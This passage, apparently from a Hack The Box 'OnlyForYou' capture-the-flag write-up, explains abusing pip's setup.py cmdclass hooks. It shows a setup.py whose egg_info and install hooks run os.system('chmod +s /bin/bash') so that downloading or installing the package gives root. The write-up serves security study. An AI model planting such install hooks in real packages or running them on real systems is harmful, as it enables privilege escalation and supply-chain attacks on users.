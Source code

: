 ![git-login](/assets/img/htb-onlyforyou-git-overview-2.png)

We can now make our malicious tar file. We use the example provided in this [blog](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/). We add `os.system('chmod +s /bin/bash')` to add SUID to bash making it so we can execute commands as root.

>setup.py is a file that specifies the metadata of a Python package, such as its name, version, author, license, and dependencies. It also specifies the package's build and installation instructions. When you run pip install or pip download, pip reads the setup.py file to determine how to install or download the package.
>
>By authoring a Python package and including `cmdclass` in the setup.py, which causes pip to execute the provided command function upon both download and install of the package, the attacker can host the package on a server and use pip download to execute the arbitrary code. 

```bash
$ git clone https://github.com/wunderwuzzi23/this_is_fine_wuzzi
```

```python
$ cat setup.py                                 
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os

def RunCommand():
    print("Hello, p0wnd!")
    os.system('chmod +s /bin/bash')

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)


class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "this_is_fine_wuzzi",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
```